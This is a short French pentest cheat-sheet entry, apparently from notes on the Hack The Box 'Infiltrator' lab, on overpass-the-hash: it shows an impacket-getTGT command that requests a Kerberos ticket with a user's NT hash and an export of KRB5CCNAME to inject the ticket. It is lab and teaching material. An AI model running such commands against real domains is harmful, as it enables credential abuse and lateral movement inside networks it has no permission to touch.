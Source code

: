 
> [!Prérequis]
> RC4 activé

> [!tip]
> Permet de faire la requête d'un TGT en utilisant le hash NT de l'utilisateur.

### *IMPACKET*

#### Requête du TGT

```bash
impacket-getTGT infiltrator.htb/e.rodriguez -hashes aad3b435b51404eeaad3b435b51404ee:b02e97f2fdb5c3d36f77375383449e56 -dc-ip dc01.infiltrator.htb
```
#### Injection du ticket #LINUX

```bash
export KRB5CCNAME=$path_to_ticket.ccache
```
